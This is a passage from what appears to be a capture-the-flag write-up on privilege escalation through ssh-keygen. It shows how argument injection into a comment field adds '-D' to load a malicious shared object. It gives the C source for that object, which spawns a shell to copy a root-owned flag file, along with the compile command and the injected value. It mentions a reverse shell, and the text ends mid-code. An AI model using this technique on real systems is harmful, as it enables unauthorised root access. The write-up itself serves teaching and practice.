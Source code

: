 [GTFOBins](https://gtfobins.github.io/gtfobins/ssh-keygen/)

Since we can have control over comment argument option we can simply add more arguments, specifically `-D` so that we can execute our malicious shared object `.so` file.

But first I had to figure out how to create a malicious shared object file for ssh-keygen. My search led me to a fork of [lib2shell](https://github.com/jonasheschl/lib2shell-ssh-keygen/blob/master/unix/lib2shell.c) which does exactly what I need. So I used the following code to compile the so file : 


    #include <stdio.h>
    #include <unistd.h>
    
    #define SHELL_PATH "/bin/sh"
    
    void __attribute__ ((constructor)) constructor() {
        puts("[lib2shell by SeanP, modified by Jonas Heschl]");
    
        long long err = execl(SHELL_PATH, SHELL_PATH, "cp /root/flag.txt /home/user/flag.txt; chown user:user /home/user/flag.txt", NULL);
        printf("Result: %lld\n", err);
    }
    
    // ssh-keygen makes a rudimentary check when loading a library with `ssh-keygen -D`.
    // If the check fails, loading is aborted. This function exists to make the check pass.
    int C_GetFunctionList() {
        return 1;
    }

Compiled it using : 


    gcc -fPIC -shared -o twh.so twh.c

and here is the value of comment I used :


    a -D ./twh.so

First I managed to copy the flag from `/root/flag.txt` to `/home/user/flag.txt` but I did not get the flag!


![](https://i.imgur.com/JGHdgr9.png)


So now the goal was to obtain a root shell. The problem was that a simple payload like `/bin/bash -s` was not working since the script uses `gum` which is a kind of wrapper that is used to create the TUI of the script, so the shell spawn was not usable due to messed up input output redirection.

Then I eventually landed on a fix for redirection, alternatively we can also use the bash reverse shell which most are familiar with


    #include <stdio.h>
    #include <unistd.h>
    
    #define SHELL_PATH "/bin/sh"
    
    void __attribute__ ((constructor)) constructor() {
        puts("[lib2shell by SeanP, modified by Jonas Heschl]");
    